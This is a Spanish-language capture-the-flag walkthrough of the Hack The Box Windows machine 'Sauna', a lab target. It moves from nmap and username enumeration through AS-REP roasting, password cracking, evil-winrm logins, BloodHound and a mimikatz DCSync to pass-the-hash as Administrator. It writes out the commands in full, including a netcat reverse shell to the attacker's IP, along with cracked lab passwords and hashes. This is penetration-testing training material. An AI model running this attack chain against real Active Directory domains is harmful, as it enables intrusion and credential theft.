

# Sauna

**OS**: Windows \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Enumeracion de usuarios
- ASREPRoast (GetNPUsers)
- Cracking Kerberos hash
- Default Credentials
- BloodHound
- DCSync Attack

## Nmap Scan

`nmap -sV -sC 10.10.10.175`

```
# Nmap 7.80 scan initiated Mon Feb 17 18:43:38 2020 as: nmap -sV -sC -oA nmap/sauna 10.10.10.175
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-18 07:45:37Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/17%Time=5E4B2552%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-18T07:48:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 17 18:49:23 2020 -- 1 IP address (1 host up) scanned in 345.16 seconds
```

## Enumeración

Enumeramos el servicio web que corre en el puerto **80** y nos dirigimos a la ruta **/about.html**, se pueden ver nombres de posibles usuarios en el sistema.


Tomando como referencia este [articulo](https://activedirectorypro.com/active-directory-user-naming-convention/) generamos una lista de usuarios.

##### usernames.txt

```
fsmith
scoins
hbear
btaylor
sdriver
skerb
f.smith
s.coins
h.bear
b.taylor
s.driver
s.kerb
```

Con esta lista de usuarios podemos intentar un ataque **ASREPRoast** para obtener hashes de Kerberos de algún usuario que no requiera pre-autenticación. Nos apoyaremos de la herramienta **GetNPUsers.py** de **impacket**.

> El ataque ASREPRoast se basa en encontrar usuarios que no requieren pre-autenticación de Kerberos. Lo cual significa que cualquiera puede enviar una petición AS_REQ en nombre de uno de esos usuarios y recibir un mensaje AS_REP correcto. Esta respuesta contiene un pedazo del mensaje cifrado con la clave del usuario, que se obtiene de su contraseña.

`python GetNPUsers.py EGOTISTICALBANK/ -usersfile ~/htb/Box/Windows/Sauna/usernames.txt -dc-ip 10.10.10.175`


Se puede visualizar que nos regresa el hash del usuario **fsmith** el cual procederemos a intentar obtener su password en texto plano con la herramienta **john**.

`sudo john fsmith_hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`


Utilizamos **evil-winrm** para obtener una shell.

`evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'`


## Escalada de Privilegios (User)

Usaremos **PowerUp.ps1** para encontrar alguna forma de escalar privilegios. **evil-winrm** nos permite subir archivos al sistema con la opción **-s**, la cual sera muy util.

- `evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23' -s priv/`
- `upload priv/PowerUp.ps1`

Importamos el modulo y ejecutamos.

- `Import-Module ./PowerUp.ps1`
- `Invoke-AllChecks`


Podemos ver credenciales por default del usuario **svc_loanmanager**. Si revisamos los usuarios existentes en el sistema no aparace pero existe un usuario similar llamado **svc_loanmgr**.

`net user`


Utilizamos **evil-winrm** para obtener shell.

`evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!' -s priv/`


## Escalada de Privilegios (Administrator)

Nos apoyaremos de una herramienta llamada **BloodHound** para recolectar información del Directorio Activo. Subiremos el archivo llamado **SharpHound.ps1** para obtener la información y posteriormente descargar el **.zip** generado por el script con ayuda de **evil_winrm**.

- `upload priv/SharpHound.ps1`
- `Import-Module ./SharpHound.ps1`
- `Invoke-BloodHound -CollectionMethod All`
- `download 20200522204259_BloodHound.zip`


Teniendo ya el archivo zip lo abrimos con bloodhound. 

> Es necesario levantar el servido **neo4j** para utilizar bloodhound. Solo se arrastra el archivo zip a la interfaz grafica de bloodhound. \
 `sudo neo4j console` \
 `bloodhound`


Si nos vamos a la opcion **Queries / Find Principals with DCSync Rights** podemos ver que el usuario **svc_loanmgr** pude desempeñar un ataque de **DCSync**.

> DCSync es un comando dentro de Mimikatz que un atacante puede aprovechar para simular el comportamiento del controlador de dominio (DC). De manera más simple, permite al atacante simular ser un controlador de dominio y solicitar a otros DC datos de contraseña de usuario.

Ya que **evil-winrm** no nos permite ejecutar correctamente **mimikatz**, creamos una reverse shell con **nc**.

- `upload priv/nc.exe`
- `upload priv/mimikatz.exe`

Ponemos a la escucha nuestro netcat y ejecutamos el comando.

- `rlwrap nc -lvnp 1234`
- ` .\nc.exe -e cmd.exe 10.10.14.248 1234`


Procedemos a ejecutar **mimikatz** para explotar **DCSync**.

`lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator`


Podemos ver que nos arroja el **NTLM** hash del usuario **Administrator**. Utilizando **lm:ntlm** podemos obtener shell con ayuda de **psexec**.

`python psexec.py Administrator@10.10.10.175 -hashes ee8c50e6bc332970a8e8a632488f5211:d9485863c1e9e05851aa40cbb4ab9dff`




## Referencias
https://activedirectorypro.com/active-directory-user-naming-convention/ \
https://www.tarlogic.com/blog/como-atacar-kerberos/ \
https://github.com/SecureAuthCorp/impacket \
https://github.com/Hackplayers/evil-winrm \
https://github.com/BloodHoundAD/BloodHound \
https://github.com/gentilkiwi/mimikatz \
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-mimikatz-dcsync
